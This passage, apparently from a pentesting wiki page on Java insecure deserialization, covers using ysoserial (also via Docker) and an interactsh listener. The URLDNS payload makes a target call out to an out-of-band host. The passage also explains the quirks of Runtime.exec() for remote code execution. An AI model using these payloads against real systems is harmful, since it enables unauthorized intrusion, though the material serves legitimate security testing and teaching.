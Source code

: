 Often the **easiest** **fix** however is to simply generate payloads with an **older Java version**.
{% endhint %}

{% hint style="success" %}
**Tip**: To avoid installing yet another tool and running into more problems, there is a working Docker container that can be used in place of it:

```sh
docker run --rm frohoff/ysoserial URLDNS "https://example.com"
```
{% endhint %}

### DNS Probe using `java.net`

A useful payload for **confirming** an insecure deserialization vulnerability is [`URLDNS`](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java) in ysoserial. This has **no dependencies** and performs a DNS lookup of a URL you provide.&#x20;

For a full explanation, see [this page](https://book.hacktricks.xyz/pentesting-web/deserialization/java-dns-deserialization-and-gadgetprobe). The summary is that the `java.net.URL` class has a `.hashCode()` method that resolves the given URL and this method is automatically called when it is put into a `java.util.HashMap`.&#x20;

Start a DNS listener using Burp Suite Professional, or using [`interactsh`](https://github.com/projectdiscovery/interactsh). Then generate the payload to execute on your target:

<pre class="language-shell-session" data-title="Start listener"><code class="lang-shell-session"><strong>$ interactsh-client
</strong>[INF] Listing 1 payload for OOB Testing
[INF] c23b2la0kl1krjcrdj10cndmnioyyyyyn.oast.pro
</code></pre>

<pre class="language-shell-session" data-title="Generate payload"><code class="lang-shell-session"><strong>$ java -jar ysoserial.jar URLDNS 'http://cj79geiq8gua4a3eseu0jheqyjanc9t8k.oast.pro' | base64 -w 0
</strong>rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgA...
</code></pre>

### `Runtime.exec()` to Shell

Almost all RCE payloads from ysoserial use `Runtime.exec()` in the end to execute shell commands.

For a proof-of-concept, executing a simple program like `calc.exe` on Windows may be enough. However, for Linux and more complicated payloads, you might require special `bash` syntax like `|` pipes or `>` redirects. Take the following example:

```java
Runtime.getRuntime().exec("id > /tmp/pwned")
```

It does not write to `/tmp/pwned`, but instead, runs `id` with the arguments  `'>'` and `'/tmp/pwned'`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ id '>' '/tmp/pwned'
</strong>id: extra operand ‘/tmp/pwned’
Try 'id --help' for more information.
</code></pre>
